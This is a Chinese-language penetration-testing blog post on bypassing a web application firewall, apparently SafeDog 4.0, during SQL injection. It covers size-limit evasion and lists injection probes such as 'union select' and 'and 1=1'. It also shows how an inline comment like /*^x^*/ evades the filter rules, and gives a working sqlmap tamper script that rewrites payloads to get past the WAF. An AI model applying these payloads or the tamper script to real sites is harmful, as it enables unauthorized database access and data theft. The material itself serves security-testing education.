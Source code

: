 ```yaml
---
date: "2017-03-07T00:00:00Z"
description: 某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
title: 渗透测试中的Bypass技巧（三）自动化注入
url: /archivers/2017-03-10/1
---
```


某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
<!--more-->

* 目录
{:toc}

## 0x00 匹配资源大小限制

某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。

Get方法提交的数据大小长度并没有限制，HTTP协议规范没有对URL长度进行限制。这个限制是特定的浏览器及服务器对它的限制。可见WAF可能在处理GET请求的时候，根据客户端（浏览器）规定的长度去匹配了，这就造成了一个缺陷。我们可以把有效数据放在这个限制的零界点，攻击语句放在零界点后方，让WAF以为这是一个正常请求，就随之放行，达到了攻击效果。

理论上讲，POST是没有大小限制的。HTTP协议规范也没有进行大小限制，起限制作用的是服务器的处理程序的处理能力。

例如在使用PHP进行POST提交时，文件大小受PHP配置文件PHP.INI限制，我们可以修改PHP.INI文件中的post_max_size参数，可将默认的2M字节，修改自己需要的大小，但由于HTTP协议的特性，这个值不宜设置过大，最大以8M为宜。假设如果服务器端设置了8M，而WAF默认只匹配2M，由此可见服务器端接受数据的大小>WAF匹配的数据最大大小。那么，我们可以根据上述方法，也可绕过WAF的拦截。


## 0x01 绕过某WAF上传

渗透测试中的Bypass技巧（二） - 知乎专栏

在上一章中我们已经举例了一个bypass上传，最重要的彩蛋就在Bypass注入啦~

## 0x02 绕过某WAF注入

我们构造一个SQL注入页面，慢慢去研究它的拦截规则：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-309291e5dd2a98bf8796bf049e7cb731_r.jpg)

先从普通的语句开始做定位：

* and 1=1

* and ‘s’=’s’

* union select 1,2,3

* `union/**/select/**/user(),2,3`

* ......

* 等价替换
* And ‘s’ like ‘s’

此时我们已经可以使用like用于盲注（此时可以将所有的 = 替换成 Like ）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-d05618b362ce592aa4cb8b8381620b7a_r.jpg)

### 注释

我们可以设想出拦截的特征正则

union与select同时出现会被拦截，union\[空格,%20,/\*部分字符\*/\]select都会被拦截，目前普通的union select都会被拦截，既然空格,%20都会被匹配到，我们只能通过/\*\*/内联来注释了（目前发现N多姿势，在这里只共享思路+一个bypass的tamper脚本）

* `/**/`

* `/*数字+字母*/`

* `/*特殊符号+数字+字母*/`

* .....more


假设union左右如果有select就拦截的话，那么定位union与select之间的敏感字符就好，假设union`[空格]`select，此时如果把空格替换成任意内联，就可bypass这个规则，此时规则也不可能是一条的。条件也是很多的。我们也只能讲内联这个规则做手脚了。

于是乎我发现`/*^xxx^xxx*/`字母加特殊字符即可bypass。

因为每个特征中都没有匹配到^与小写字母、大写字母、数字的组合，这些条件可以继续测试，笔者已经把此文写到最佳精简，测试期间也翻看过拦截日志，定位拦截特征。

（Union注入）例如在读取：mysql密码、表名的时候，我们还会查询information_schema数据库，这个可以转换大小写，或者在information_schema.TABLES直接再添加一个注释。下面就是测试过程：首先测试简单的and 1=1


![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-8496c213549317823092929a2764f72a_r.jpg)


然后我们使用注释bypass:

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-79b4d5253c14457c4e4493b438b4231e_r.jpg)

此时已经bypass成功了，我在这里用的是某dog 4.0（3.5也可以）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f54a5d6fe18955781f3d14a8802d3d7b_hd.jpg)

## 0x03 自动化bypass注入

我们通过编写sqlmap的tamper用于bypass，主要是需要定位各种拦截点，使用sqlmap替换Payload。

首先在sqlmap的tamper文件夹里创建一个safedog.py，编写我们的tamper脚本

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-78c541db6e25a98c01a0d3556fd5d321_r.jpg)

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload):
    if payload:
		bypass_SafeDog_str = "/*x^x*/"
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str)
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str)
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str)
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str)
		payload=payload.replace(" ",bypass_SafeDog_str)
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/")
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str)
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload
    return payload
```

我们测试一下先不载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66446e8f8f6a49347e8a181bfbf79b73_hd.jpg)

到了这基本没戏了，我们看看拦截日志

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-38178932222e08df8395ac117fa8ec6d_r.jpg)

现在载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-070979a6ee68c8f3c0fc0ce384fd12a9_r.jpg)

可以看到已经载入，并且识别了waf指纹。



以下是跑脚本的过程

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-3cbe15d14ddef776ddca44a353768be6_r.jpg)

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-40d2293817e8e2a87d4281d71fe5f9d2_hd.jpg)

支持布尔值注入

支持union注入

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-091cfa9e51da47e78bf301db3c35f95b_hd.jpg)